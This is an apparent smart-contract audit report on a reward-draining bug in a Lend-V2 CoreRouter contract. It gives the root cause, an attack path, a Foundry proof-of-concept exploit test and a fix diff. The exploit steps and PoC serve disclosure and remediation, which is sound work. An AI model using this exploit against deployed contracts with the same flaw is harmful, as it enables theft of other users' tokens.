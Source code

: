 Energetic Chocolate Weasel

High

# Malicious user can drain `CoreRouter` contract's LEND tokens, causing other users to be unable to claim their LEND tokens

### Summary

`CoreRouter::claimLend` does not reset `LendStorage::lendAccrued` during claiming, allowing malicious user to claim more LEND tokens than they have accrued. This drains the `CoreRouter` contract's LEND tokens, causing other users to be unable to claim their rightful LEND tokens.

### Root Cause

In [`CoreRouter::claimLend#L339-407`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L407), `LendStorage::lendAccrued` is not reset to `0` when transferring LEND tokens to the user using `CoreRouter::grantLendInternal`. This allows a malicious user to repeatedly claim more LEND tokens than they have accrued, draining the `CoreRouter` contract's LEND tokens. As a result, other users will not be able to claim their rightful LEND tokens.

[`CoreRouter::claimLend#L339-407`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L407)
```javascript
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
```

[`CoreRouter::grantLendInternal#L420-L423`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L420-L423)
```javascript
        if (amount > 0 && amount <= lendBalance) {
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
```

### Internal Pre-conditions

1. Other users need to have accrued claimable LEND in the `CoreRouter` contract

### External Pre-conditions

None

### Attack Path

1. Malicious user calls `CoreRouter::supply` to start accruing claimable LEND
2. Malicious user waits until they have accrued claimable LEND rewards
3. Malicious user calls `CoreRouter::claimLend` repeatedly to drain `CoreRouter` contract of LEND tokens
4. Other users with accrued claimable LEND calls `CoreRouter::claimLend` but does not receive their rightful LEND tokens

Note: In step 1, malicious user can also use other `CoreRouter` contract interactions (e.g. borrow) to start accruing claimable LEND

Note: In step 3, malicious user can also call `CoreRouter::claimLend` once with `holders` array filled repeatedly with malicious user's address to drain `CoreRouter` contract of LEND tokens

### Impact

1. The attacker can claim multiples of their accrued LEND tokens
2. `CoreRouter` is drained of LEND tokens
3. Users will not be able to claim their rightful LEND tokens

### PoC

Place the following into `test/TestSupplying.t.sol` and run
> forge test --mt testExploitClaimLend

```javascript
    function testExploitClaimLend() public {
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        address mAlice = makeAddr("mAlice");
        ERC20Mock(token).mint(mAlice, 1e18);
        address Bob = makeAddr("Bob");
        ERC20Mock(token).mint(Bob, 1e18);

        address[] memory holdersParam = new address[](1);
        LToken[] memory lTokensParam = new LToken[](1);
        lTokensParam[0] = LToken(lToken);
        
        // 1. mAlice and Bob supplies token to CoreRouter
        vm.startPrank(mAlice);
        IERC20(token).approve(address(coreRouter), 1e18);
        coreRouter.supply(1e18, token);
        vm.stopPrank();
        vm.startPrank(Bob);
        IERC20(token).approve(address(coreRouter), 1e18);
        coreRouter.supply(1e18, token);
        vm.stopPrank();

        // 2. Some time passes, both mAlice and Bob has accrued claimable LEND
        vm.warp(block.timestamp + 20000);
        vm.roll(block.number + 20000);
        // mAlice accrues 1e18 claimable LEND
        // Bob accrues 1e18 claimable LEND

        // 3. mAlice claims all the LEND tokens accrued
        holdersParam[0] = mAlice;
        vm.startPrank(mAlice);
        coreRouter.claimLend(holdersParam, lTokensParam, true, true);
        coreRouter.claimLend(holdersParam, lTokensParam, true, true);
        vm.stopPrank();
        // mAlice accrued 1e18 claimable LEND but manages to claim 2e18 LEND
        assertEq(IERC20(lendtroller.getLendAddress()).balanceOf(mAlice), 2e18);
        // CoreRouter is drained of LEND tokens
        assertEq(IERC20(lendtroller.getLendAddress()).balanceOf(address(coreRouter)), 0);

        // 4. Bob calls claimLend but does not receive any LEND
        holdersParam[0] = Bob;
        vm.prank(Bob);
        coreRouter.claimLend(holdersParam, lTokensParam, true, true);
        // Bob accrued 1e18 claimable LEND but does not receive any LEND when claiming
        assertEq(IERC20(lendtroller.getLendAddress()).balanceOf(Bob), 0);
    }
```

### Mitigation

In `CoreRouter::grantLendInternal`, set `lendStorage.lendAccrued(user)` to `0` before transferring LEND tokens to the user.

`CoreRouter::grantLendInternal`
```diff
        if (amount > 0 && amount <= lendBalance) {
+           lendStorage.removeLendAccrued(user);
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
```

`LendStorage`
```diff
+   function removeLendAccrued(address user) external onlyAuthorized {
+       lendAccrued[user] = 0;
+   }
```